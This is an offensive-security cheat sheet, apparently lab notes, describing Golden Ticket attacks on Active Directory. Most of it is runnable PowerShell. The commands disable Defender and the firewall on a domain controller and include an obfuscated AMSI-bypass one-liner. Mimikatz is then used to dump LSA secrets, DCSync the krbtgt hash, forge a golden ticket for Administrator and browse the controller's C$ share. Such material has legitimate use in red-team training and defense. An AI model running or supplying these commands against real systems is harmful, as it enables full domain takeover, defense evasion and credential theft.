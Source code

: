 # Golden Ticket

Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain's Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGTs) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).

Because the attacker is controlling the component of the access control system that is responsible for issuing Ticket Granting Tickets (TGTs), then he has the golden ticket to access any resource on the domain.

```sh
. .\Powerview.ps1
Get-DomainUser -SamAccountName Administrator

# Do Over the PAss hash with an user with access to the DC
# Execute mimikatz on DC as DA to get krbtgt hash
$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local


# Disable Firewall and AV
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
Invoke-Command -Session $sess -FilePath c:\AD\Tools\Invoke-mimikatz.ps1

# Enter Session
Enter-PSsession $sess

# ByPass AMSI
powershell -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Get all the hash and the important krbtgt
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Get krbtgt silently
The DCSync is a mimikatz feature which will try to impersonate a domain controller and request account password information from the targeted domain controller. This technique is less noisy as it doesn’t require direct access to the domain controller or retrieving the NTDS.DIT file over the network.

```sh
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'


# On any machine
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

klist
ls \\dcorp-dc\c$
cd \\dcorp-dc\c$
```
